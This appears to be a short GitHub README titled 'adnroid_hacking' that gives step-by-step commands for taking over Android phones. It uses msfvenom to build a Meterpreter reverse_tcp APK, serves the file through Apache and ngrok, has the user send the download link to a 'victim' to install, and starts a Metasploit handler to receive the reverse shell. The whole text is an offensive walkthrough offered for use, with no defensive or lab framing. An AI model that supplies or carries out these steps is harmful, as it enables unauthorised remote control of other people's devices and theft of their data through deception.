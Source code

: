# adnroid_hacking
hi guys in this repo i will how you how to access any android devices with the help of msf payload. :)
use msf payload 

step1)  sudo service postgresql start
step2)  msfconsole 
step3) msfvenom -p android/meterpreter/reverse_tcp lhost={local ip} lport={any port} R> hack.apk
step4) now cp payload in html folder  cp /var/www/html
step5) run apache server    sudo service apache2 start
step6) now start your ngrok server   ./ngrok http 80

step7) copy ngrok link send to victim mobile download nd install ;)

step8) start listner  use exploit/multi/handler
step9) set payload android/meterpreter/reverse_tcp
step10) set lhost={your local machine ip address }
step11)  set lport={your payload port}
step12)  exploit -j 


now install payload and open to successfully get your reverse shell :)


